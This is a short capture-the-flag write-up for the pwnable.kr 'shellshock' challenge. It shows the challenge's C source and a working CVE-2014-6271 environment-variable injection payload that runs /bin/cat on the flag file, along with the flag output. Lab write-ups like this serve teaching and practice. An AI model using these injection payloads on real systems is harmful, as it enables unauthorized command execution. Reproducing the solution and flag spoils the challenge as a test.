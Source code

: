 ```yaml
---
title: "Pwnable.kr - shellshock"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/shellshock.png
ribbon: red
description: "The challenge represents the very well known vulnerability `CVE-2014-6271` also known as `shellshock`. I won't go into details of how it works (see the references for more info).
we are given a `bash` binary at our working directory, to test if it's vulnerable to shellshock..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy, there was a shocking news about bash.
> I bet you already know, but lets just make it sure :)



```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

The challenge represents the very well known vulnerability `CVE-2014-6271` also known as `shellshock`. I won't go into details of how it works (see the references for more info).

we are given a `bash` binary at our working directory, to test if it's vulnerable to shellshock you can run the following command:

```
shellshock@pwnable:~$ env x='() { :;}; echo TEST' ./bash -c :
TEST
```

It printed `TEST` which means this bash is vulnerable to shellshock, It will exit silently if `bash` has been patched.

The challenge is just a call to `bash -c` so we can treat it as `./bash` and pass to it what we want to execute (/bin/cat flag).

# Solution:

```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

# References:

[https://fedoramagazine.org/shellshock-how-does-it-actually-work/](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)

